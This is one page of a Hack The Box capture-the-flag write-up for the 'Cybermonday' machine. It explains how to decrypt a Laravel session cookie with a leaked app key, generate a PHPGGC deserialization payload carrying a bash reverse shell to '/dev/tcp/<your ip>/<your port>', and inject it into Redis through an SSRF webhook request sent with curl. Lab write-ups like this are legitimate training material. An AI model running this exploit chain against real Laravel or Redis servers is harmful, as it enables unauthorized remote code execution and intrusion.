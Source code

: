 # HTB Cybermonday - Gaining a Foothold

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[**Gaining a Foothold**](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have a possible attack vector we need to figure out how to implement it. In order to poison our [[laravel|Laravel]] session we need to know what the key for it is called in the [[redis|Redis]] server. Laravel stores that information in a cookie that's sent to the client, however we can't just read it as it's encrypted. Lucky for us, thanks to the `.env` file, we have the key to that encryption. There are a number of scripts around to perform this decryption for us. I used the one from [hacktricks here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel#decrypt-cookie). Once you have the decryption script, set the app_key to the one in the `.env` file. Also take note of the `REDIS_PREFIX` value while you're there as we'll need this later.

Before we poison our session we'll need something to poison it with. First, download [PHPGGC](https://github.com/ambionics/phpggc) if you don't already have it. Next we need to prepare a payload to use. PHPGGC has a number of [[rce|RCE]] exploits we could use, but some will and won't work depending on the version of Laravel. If one doesn't work, try the next. For the function and parameter we provide `phpggc` we'll use:
```bash
exec "/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/<your port> 0>&1'"
```

Next we need a valid session cookie. Go back to the Cybermonday shopping site and log in again if you've been logged out. Open up the dev tools for your browser and copy the cookie value for `cybermonday_session`. The value is URL encoded to make sure to decode it before using it in the script we downloaded before. The decrypted value will be formatted as `<User Id>|<Session Id><Buffer Bytes>`. Copy the session id down for use in the next step.

Now we have our payload and session id, we need to prepare them in both the [[redis|RESP]] protocol format, and then escape that string for use in our JSON. For passing a command, your RESP formatted string should look like:
```
*3\r\n$3\r\nSET\r\n$56\r\nlaravel_session:<your session id>\r\n$<payload length before JSON escape>\r\n<payload>\r\n
```

So whats going on here? Well commands are passed to RESP as an array. We're passing 3 arguments so we start our string with `*3` with `*` specifying that this is an array. Each data type identifier or piece of data is ended with `\r\n`. Next we specify the command we want to use. Our command `SET` is 3 bytes long so we specify the length as `$3` with `$` specifying that this is a "bulk string". Next is our actual command `SET`, and what follows is the same procedure with our `key` and `value` arguments for the full command. Next we escape the string so that it's passed to the webhook server properly, and we send our `curl` request:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> \
-H 'x-access-token: <your token>' \
-H 'Content-Type: application/json' \
-d '{"url": "http://redis:6379", "method": "<your prepared resp string>"}'
```

Make sure you've started your `netcat` listener, and then refresh the Cybermonday page. If all goes well, you'll have a reverse shell. If you get a deserialization error in Laravel that starts at byte 0, there was probably an issue in your formatting when sending the request. If the deserialization error starts at a later byte, or you get a different error, try a different `phpggc` exploit.

Next: [Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)